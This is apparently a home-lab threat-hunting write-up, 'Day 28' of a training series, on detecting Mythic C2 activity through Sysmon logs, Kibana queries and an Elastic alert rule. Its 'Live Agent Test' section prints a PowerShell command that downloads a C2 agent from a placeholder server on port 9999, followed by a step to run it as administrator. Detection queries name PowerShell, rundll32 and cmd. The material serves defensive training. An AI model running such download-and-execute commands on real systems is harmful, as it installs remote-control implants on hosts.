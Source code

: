 <h2>🕵️‍♂️ Day 28: Mythic C2 Threat Hunting - Investigating Command and Control</h2>

<h3>✅ Objective:</h3>
<p>Investigate activity related to the <strong>Mythic C2 framework</strong> using Sysmon logs via Kibana Discover and Dashboards.</p>

<hr>

<h3>🔍 Step-by-Step Threat Hunting Approach</h3>

<h4>1. Known IOC Investigation (Cheat Method)</h4>
<pre>
Filename: servicehost-dstepenrocks.exe
Location: C:\Users\Public\Downloads\
</pre>
<ul>
  <li>Go to <strong>Discover</strong> in Kibana</li>
  <li>Set time to <code>Last 30 days</code></li>
  <li>Query: <code>winlog.event_data.Image: "svchost-dvlncl.exe"</code></li>
  <li>Sort timestamp from <strong>old to new</strong></li>
  <li>Review full process chain</li>
</ul>

<h4>2. Unknown C2 Discovery (Generic Threat Hunting)</h4>

<h5>A. Network Behavior (Sysmon Event ID 3)</h5>
<pre>
event.code: "3" AND NOT winlog.event_data.Image: "MsMpEng.exe"
</pre>
<ul>
  <li>Identify unusual outbound ports (e.g., 9999, 80)</li>
  <li>Check image path of calling processes (e.g., Downloads folder)</li>
  <li>Flag processes like <code>powershell.exe</code>, <code>rundll32.exe</code>, or <code>cmd.exe</code></li>
</ul>

<h5>B. Process Creation (Sysmon Event ID 1)</h5>
<pre>
event.code: "1" AND winlog.event_data.Image.keyword : "*rundll32.exe" OR "*powershell.exe" OR "*cmd.exe"
</pre>

<hr>

<h3>📌 Timeline Building</h3>
<p>Pivot across event types using <code>ProcessGuid</code>:</p>

<table border="1" cellpadding="6">
  <tr>
    <th>Event Type</th>
    <th>Description</th>
  </tr>
  <tr>
    <td>File Created (11)</td>
    <td><code>C:\Users\...\Downloads\servicehost-*.exe</code></td>
  </tr>
  <tr>
    <td>Executable Detected (29)</td>
    <td>Confirms PE file creation</td>
  </tr>
  <tr>
    <td>Process Created (1)</td>
    <td>Execution of the C2 agent</td>
  </tr>
  <tr>
    <td>Network Connection (3)</td>
    <td>Outbound to <code><your mythic server ip>:9999</code></td>
  </tr>
</table>

<hr>

<h3>🛠️ Detection Rule Setup (Elastic Security)</h3>
<ul>
  <li>Update rule schedule to <strong>every 1 minute</strong></li>
  <li>Action: Send webhook to OS Ticket</li>
  <li>Enable highlighted fields:
    <ul>
      <li><code>winlog.event_data.Image</code></li>
      <li><code>destination.ip</code></li>
      <li><code>destination.port</code></li>
    </ul>
  </li>
</ul>

<hr>

<h3>💡 Correlation Fields to Use</h3>
<ul>
  <li><code>winlog.event_data.ProcessGuid</code></li>
  <li><code>winlog.event_data.ParentImage</code></li>
  <li><code>winlog.event_data.DestinationIp</code></li>
  <li><code>winlog.event_data.CommandLine</code></li>
</ul>

<hr>

<h3>🧪 Live Agent Test</h3>
<ol>
  <li>Download payload:
    <pre>powershell -Command "Invoke-WebRequest -Uri http://<your mythic server ip>:9999/mydfir-d30.exe -OutFile C:\Users\Public\Downloads\mydfir-d30.exe"</pre>
  </li>
  <li>Run as administrator</li>
  <li>Verify Mythic callback</li>
  <li>Check Kibana Discover for file create, process create, and network connection logs</li>
</ol>

<hr>

<h3>🎯 Outcome</h3>
<ul>
  <li>Confirmed Mythic C2 activity via Sysmon logs</li>
  <li>Auto-generated alert linked to OS Ticket</li>
  <li>Manual investigation validated C2 execution chain</li>
</ul>

<p><em>Continue building dashboards and rules to cover additional attack vectors like Atomic Red Team or Caldera.</em></p>
